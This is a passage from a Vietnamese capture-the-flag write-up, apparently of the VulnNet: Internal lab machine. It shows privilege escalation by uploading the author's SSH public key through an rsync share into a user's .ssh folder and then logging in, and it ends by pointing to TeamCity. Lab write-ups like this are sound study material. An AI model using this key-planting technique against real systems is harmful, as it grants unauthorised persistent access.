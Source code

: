 Vậy là tôi tìm được *user-flag*

## Privilege escalation

Quay trở lại phần list file ở phía trên để xem cho dễ, tôi nhận ra có thư mục *.ssh*, nhưng bên trong không có gì.

Vậy thì tôi sẽ thử tải public key của mình lên máy để login ssh

```python
┌──(kali㉿kali)-[~/rsync]
└─$ cp ~/.ssh/id_rsa.pub authorized_keys
                                         
┌──(kali㉿kali)-[~/rsync]
└─$ rsync authorized_keys rsync://rsync-connect@10.10.116.142/files/sys-internal/.ssh   
Password: 
```

### SSH

```python
┌──(kali㉿kali)-[~/rsync]
└─$ ssh sys-internal@10.10.116.142    
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

541 packages can be updated.
342 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

sys-internal@vulnnet-internal:~$ id
uid=1000(sys-internal) gid=1000(sys-internal) groups=1000(sys-internal),24(cdrom)
```

Tuy nhiên sau khi dạo quanh 1 vòng tôi cũng không tìm được gì quá đặc biệt. Mất 1 lúc khá lâu để ngồi xem lại từ đầu xem tôi có bỏ sót gì không, quay ngược lại RCE ban đầu tôi nhận ra còn 1 thư mục khá thú vị mà tôi đã bỏ qua đó là TeamCity
